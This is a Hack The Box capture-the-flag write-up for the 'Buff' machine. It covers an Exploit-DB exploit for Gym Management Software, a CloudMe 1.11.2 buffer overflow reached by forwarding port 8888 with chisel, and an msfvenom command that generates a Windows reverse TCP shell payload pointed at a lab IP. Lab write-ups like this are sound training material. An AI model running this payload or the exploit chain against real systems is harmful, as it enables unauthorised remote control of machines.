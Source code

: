 # Hack The Box
## Buff Writeup (Guided Mode)

### On which TCP port is Buff hosting a website?
> ![image](https://github.com/brownPineapple/hackthebox/assets/30342446/c0eac422-e007-44cf-91d7-404cca15ccbe)
> Port 8080 we have httpd

### Which framework is the website using? 
> ![image](https://github.com/brownPineapple/hackthebox/assets/30342446/52036b39-9f45-4a3f-8f3e-a29b584ecbac)
> Gym Management Software

+ There is an exploit for Gym Manangement Software on Exploit-DB
+ ![image](https://github.com/brownPineapple/hackthebox/assets/30342446/1315d846-72db-48a5-8160-af7ed9600a7d)
+ This exploit works with python2, which has been discontinued, but if you wish to install it here is the link on how to do it - https://ubuntuforums.org/showthread.php?t=2486174
+ Note: Installing python2 might change some configs for python3 so please do not do it unless you know what you are doing. If you're a newbie, create a temporary user for running the exploit.

### Which user is the website running as?
> ![image](https://github.com/brownPineapple/hackthebox/assets/30342446/99f7ddb2-931d-4fc6-97d6-e19a05bc550c)
>  Shaun

### Submit the flag located on the shaun user's desktop.
> ![image](https://github.com/brownPineapple/hackthebox/assets/30342446/9e15d51b-f60b-40ba-bbf2-370329c79d14)

### What is the name of an interesting binary inside the shaun user's home directory?
> ![image](https://github.com/brownPineapple/hackthebox/assets/30342446/ba89db0d-8228-4959-bf4e-9efc81f9682d)
> CloudMe_1112.exe

### Which localhost port is the above binary listening on?
> ![image](https://github.com/brownPineapple/hackthebox/assets/30342446/a4bae0d6-9488-43e8-9cef-a838a6a17925)
> 8888

+ I could not find the process so I had to run the exploit in another window and run two parallel commands
+ ```netstat -ano``` to list all the open ports
+ ```tasklist | find /i "CloudMe"``` to find the process id/PID of the binary

### What version of CloudMe has a buffer overflow vulnerability?
> ![image](https://github.com/brownPineapple/hackthebox/assets/30342446/a3812c13-4393-4e03-a15e-280b652350fa)
> 1.11.2

### Submit the flag located on the administrator's desktop.
> ![image](https://github.com/brownPineapple/hackthebox/assets/30342446/53e55423-7e30-448c-9e71-4ea0a7c4ddfd)

+ So the final part was a bit tricky because the exploit was in python and the machine has no python installed on it
+ We downloaded chisel on both attacker and victim machine (Linux for me and Windows for Buff) - https://github.com/jpillora/chisel/releases/
+ Run Chisel to forward port 8888 on my machine and then running the exploit

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/978acc18-5816-4da0-9ea7-88f9de68018f)
+ Create a reverse shell payload using msfvenom as shown in the exploit
```msfvenom -a x86 -p windows/shell/reverse_tcp LHOST=10.10.14.33 LPORT=4455 -b '\x00\x0A\x0D' -f python```
+ Replace the bytes, start ncat listner and run the exploit and we get shell
